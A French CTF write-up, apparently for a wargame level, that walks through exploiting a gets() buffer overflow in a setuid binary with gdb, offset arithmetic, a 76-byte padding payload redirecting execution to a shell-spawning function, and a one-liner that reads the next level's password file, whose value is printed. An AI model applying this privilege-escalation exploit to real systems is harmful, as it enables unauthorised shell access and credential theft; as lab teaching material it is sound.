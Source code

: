 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2030(level1) gid=2030(level1) groups=2030(level1),100(users)
/home/user/level1
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Je tente d'exécuter le binaire `level1` :

```bash
$ ./level1
(waiting for input)
$ ./level1
hello world?
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=621e2f06-c90f-42e1-b556-a4a225fc4b1b) et en extrait une version probable du code :

```c
void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh"); // <--------------------4 shell access
}

int main(void)
{
    char buffer[64]; // <-----------------------1 buffer declared with 64 bytes
    gets(buffer);  // <-------------------------2 user input stored in buffer but without size check = overflow = arbitrary return address exploit
    return 0; // <------------------------------3 return address changed to run()
}
```

Le code présente une vulnérabilité : `gets()`. Cette fonction n'a pas de limite de byte lus, et va écrire dans un buffer de taille 64, je peux donc overflow.

Cela me permet d'exploiter une vulnérabilité similaire à celle connue sous le nom de `Ret2Libc` ([plus d'information ici](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)).

Cette vulnérabilité consiste à ré-écrire l'adresse sur laquelle la dernière instruction (`ret`) d'une fonction pointe (aussi appellé l'`EIP`).

En overflowant le buffer qui m'est donné ici, je peux donc écrire sur la stack et ré-écrire l'`EIP` pour le faire pointer sur autre chose, dans mon cas de figure, je vais faire pointer l'adresse de retour de `main()` vers `run()`.

Cela signifie que lorsque j'aurais envoyé mon "payload" a `gets()`, celui-ci, qui sera trop grand, va écrire sur la stack, et modifier l'exécution de `main()`, qui au lieu de return vers son caller (ce qui équivaut à un `exit` dans un cas classique), va return vers `run()`, et donc exécuter cette fonction.

Il me faut trouver deux informations afin d'exécuter cet exploit :

- La taille de la stack
- L'adresse de `run()` dans la mémoire

J'utilise `gdb` pour trouver la taille de la stack :

```h
$ gdb ./level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave <------------ break ici avant le clean de la stack
   0x08048496 <+22>:    ret
End of assembler dump.

(gdb) b *main+21
Breakpoint 1 at 0x8048495

(gdb) r
Starting program: /home/user/level1/level1
dab

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers
...
esp            0xbffff6c0       0xbffff6c0 <--- pointe vers le début de la stack
ebp            0xbffff718       0xbffff718 <--- pointe vers la fin de la stack
...
```

Le calcul suivant : `0xbffff718 - 0xbffff6c0 = 0x58 = 88` m'indique que la stack fait donc 88 bytes dans ce programme. Je dois cependant soustraire `0x10` à mon calcul pour l'overflow, car le buffer n'est pas déclaré au début de la stack comme le montre l'instruction suivante :

```h
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```

Mais à `0x10` de la valeur `%esp`, soit un décalage de `0x10 = 16` bytes.
Je soustrais donc 16 bytes à 88 et trouve : `88 - 16 = 72` bytes afin de pointer sur `ebp`.

Il ne me reste qu'à ajouter 4 bytes supplémentaire à ce calcul pour atteindre l'adresse qui contient la valeur de retour de la fonction `main()`, qui sera enfin utilisé par :

```h
   0x08048496 <+22>:    ret
```

Je dois donc remplir le buffer de 76 bytes, puis, écrire l'adresse de `run()` que je trouve de cette façon :

```h
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run> 
```

Je peux donc maintenant construire mon "payload infecté" de cette manière :

```h
"\x90" * 76 + "\x08\x04\x84\x44"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer -> ebp    adresse de run()
```

`\x90` représente un `NOP` (no operation) et est l'instruction idéale pour le padding, puisqu'elle permet de préserver l'alignement de la mémoire. Ce pattern s'appelle un `NOP sled`.

J'utilise le payload sur le binaire `level1` :

```bash
$ (python -c 'print("\x90" * 76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
